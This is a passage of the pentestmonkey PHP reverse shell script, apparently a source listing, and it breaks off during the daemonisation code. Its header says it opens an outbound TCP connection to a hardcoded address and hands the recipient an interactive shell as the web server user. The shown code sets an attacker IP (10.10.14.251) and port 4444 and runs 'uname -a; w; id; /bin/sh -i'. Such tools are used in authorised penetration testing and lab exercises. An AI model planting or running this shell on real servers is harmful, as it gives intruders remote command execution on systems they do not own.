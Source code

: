 ```php
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.251';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
```